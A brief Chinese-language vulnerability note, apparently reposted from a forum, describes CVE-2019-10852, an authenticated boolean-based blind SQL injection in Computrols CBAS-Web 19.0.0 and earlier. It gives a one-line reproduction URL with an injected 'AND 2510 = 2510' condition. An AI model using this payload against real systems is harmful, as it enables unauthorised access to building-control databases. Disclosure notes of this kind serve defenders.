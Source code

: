 # （CVE-2019-10852）Computrols CBAS Web SQL注入

> 原文：[https://www.zhihuifly.com/t/topic/2853](https://www.zhihuifly.com/t/topic/2853)

# （CVE-2019-10852）Computrols CBAS Web SQL注入

## 一、漏洞简介

Computrols CBAS-Web经过身份验证的基于布尔的盲SQL注入

## 二、漏洞影响

19.0.0及以下

## 三、复现过程

```
http://www.0-sec.org/cbas/index.php?m=servers&a=start_pulling&id=1 AND 2510 = 2510 
```
